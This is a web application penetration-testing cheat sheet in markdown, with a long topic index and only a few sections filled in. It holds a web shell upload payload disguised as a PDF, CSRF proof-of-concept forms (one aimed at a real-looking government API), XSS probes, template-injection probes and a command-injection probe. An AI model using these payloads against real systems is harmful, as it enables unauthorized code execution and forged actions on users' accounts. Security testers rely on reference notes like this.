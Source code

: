 # Web Application Security Attacks

* Burpsuite
* Templates
* Application
	* Open Redirect
	* HTTP Parameter Pollution
	* Cross Site Request Forgery
	* HTML Injection
	* CRLF Injection
	* [XS-Search](#xssearch)
	* Cross Site Sripting
	* Template Injection
	* [IDOR](#idor)
	* [Type Confusion](#type)
	* [CORS Misconfiguration](#cors)
	* [Logic Bugs](#logic)
* Server
	* [Local/Remote File Inclusion](#lfi)
	* [SQL Injection](#sqli)
	* [Server Side Request Forgery](#ssrf)
	* [XML External Entity Vulnerability](#xxe)
	* [Insecure Deserialization](#deserialization)
	* [Prototype Pollution](#proto)
	* [ESI injection](#esi)
	* [Remote Code Execution](#rce)
* Cloud/Network
	* [Sub Domain Takeover](#sub)
	* [OAuth](#oauth)
	* [SAML](#saml)
	* [Parser Exploitation](#parser)
	* [AWS buckets](#aws)
	* [AppCache](#appcache)
	* [Cache Deception](#cached)
	* [Cache Poisoning](#cachep)
	* [Proxy Attacks](#proxy)
	* [HTTP Desync](#httpd)
* Multiple/Other
	* [XSS + CSRF](#xsscsrf)
	* [XSS + TRACE](#xsstrace)
	* [SSRF + CRLF](#ssrfcrlf)
	* [Jenkins](#jenkins)
* [Firewall Bypasses](#fire)
* [Flash](#flash)
* Spreadsheets
* Wordpress
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

<h2>Burpsuite</h2>

	#Add whole subdomain to scope REGEX
	.*\.test\.com$

	

<h2>Templates</h2>

<h3>Script template</h3>

	import requests
	from colorama import Fore, Back, Style

	requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

	proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

	def format_text(title, item):
		cr = '\r\n'
		section_break = cr + "*" * 20 + cr
		item = str(item)
		text = Style.BRIGHT + Fore.RED + title + Fore.RESET + section_break + item + section_break
		return text

	r = requests.get('https://umich.com', verify=False, proxies=proxies)
	print format_text('r.status_code is: ', r.status_code)
	print format_text('r.headers is: ', r.headers)
	print format_text('r.cookies is: ', r.cookies)
	print format_text('r.text: ', r.text)


<h3>Post form data</h3>

	# Post form data
	proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
	multipart_form_data = {
	    'file': ('aloha.php', '<?php system($_GET[\'cmd\']); ?>', 'application/pdf'),
	    'submit' : (None, 'Send')
	}
	r = requests.post('http://127.0.0.2/contact.php', verify=False, proxies=proxies, files=multipart_form_data)

<h2 id="application">Application</h2>

<h3 id="open">Open Redirect</h3>

	http://evil.url

<b>Upgrade to Response Splitting</b>

<h3 id="csrf">Cross Site Request Forgery</h3>

	#GET example
	<html>
		<body>
			<script>history.pushState('', '', '/')</script>
				<form action="https://127.0.0.1/vulnerable/endpoint?param=value1&param2=value2" method="POST">
					<input type="submit" value="Submit request" />
				</form>
		</body>
	</html>

	#POST example
	<html>
		<body>
			<script>history.pushState('', '', '/')</script>
				<form action="https://127.0.0.1/vulnerable/endpoint" method="POST">
					<input type="hidden" name="param1" value="value1" />
					<input type="hidden" name="param2" value="value2" />
					<input type="submit" value="Submit request" />
				</form>
		</body>
	</html>

	<html>
		<title>JSON CSRF POC</title>
		<body>
			<center>
				<h1> JSON CSRF POC </h1>
				<script>
					fetch('https://acdhub.service.ncsc.gov.uk/api/v1-0-39/Users/preferences', {method: 'POST', credentials: 'include', headers: {'Content-Type': 'text/plain'}, body: '{"preferences":[{"key":"receiveEmails","value":"false"}]}'});
				</script>
				<form action="#">
					<input type="button" value="Submit" />
				</form>
			</center>
		</body>
	</html>

	#JSON example
	<html>
		<body>
			<script>history.pushState('', '', '/')</script>
				<form action="https://127.0.0.1/vulnerable/endpoint" method="POST">
					<input name='{"param1":"value1", "param2":"'value='"}'>
					<input type="submit" value="Submit request" />
				</form>
		</body>
	</html>



<b>Attacking local services</b>

<h3 id="xss">Cross Site Scripting</h3>

	<script>alert(1)</script>
	<svgonload=alert(1)>
	

<h3 id="ti">Template Injection</h3>

	input=%7B%7B7%2A7%7D%7D # {{7*7}}

<b>Sandbox Escape</b>

<h3 id="xxe">XML External Entities</h3>
	

<b>Local DTD files</b>

<h3 id="rce">Remote Code Execution</h3>

	input=%3Bdir

<b>Insecure API</b>
